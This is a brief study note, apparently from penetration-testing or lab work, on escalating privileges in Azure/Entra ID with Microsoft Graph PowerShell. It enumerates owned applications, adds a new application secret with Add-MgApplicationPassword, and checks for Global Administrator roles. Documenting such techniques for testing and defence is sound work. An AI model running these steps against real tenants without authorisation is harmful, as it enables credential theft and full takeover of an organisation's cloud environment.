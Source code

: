 
Once logged in, we're going to jump to the powershell method of connection. First, get your access token:
`az account get-access-token --resource https://graph.microsoft.com`

This token can be useful to log in into the MgGraph using the PS connection method:

Store your token in a variable to use it:
`token=[the entire token]`
`PS> Connect-MgGraph -AccessToken $token`

*remember there are several clients to connect to Azure, in powershell is one, and az is another*

Get some context about your user:
`PS> Get-MgContext`
this will show a correct authentication

Get the User ID:
`PS> Get-MgUser -Filter "startswith(displayName,'[name of user]')"`

Let's check what objects the user can access:
`PS> Get-MgUserOwnedObject -UserId [UserID] | ConvertTo-Json`

Check for any applications that you may have access to, like, you may see it's name next to "displayName". If you see any apps you have access to, check them with:

`PS> Get-MgApplication -Filter "startswith(displayName,'[app name]')"`

Check it's owner:
`PS> Get-MgApplicationOwner -ApplicationId "AppObjectID" | ConvertTo-Json`

You may have rights over the app. If you do or have further permissions, you can try to create some new credentials:

`PS> Add-MgApplicationPassword -ApplicationId "AppObjectID" | ConvertTo-Json`

If you're successful, you will get the new credential's secret.

Sometimes applications have high privileges by misconfigurations, so you may want to check if you're a member or manager of any apps, and also the roles assigned to that application:

`PS> Get-MgDirectoryRolememberasServicePrincipal -DirectoryRoleId [ID of application] | ConvertTo-json`

Check if the role is part of any global administrators, this could lead you to owning an environment.


### Properties
---
📆 created   {{08-01-2025}} 21:15
🏷️ tags: #cloud #azure 

---
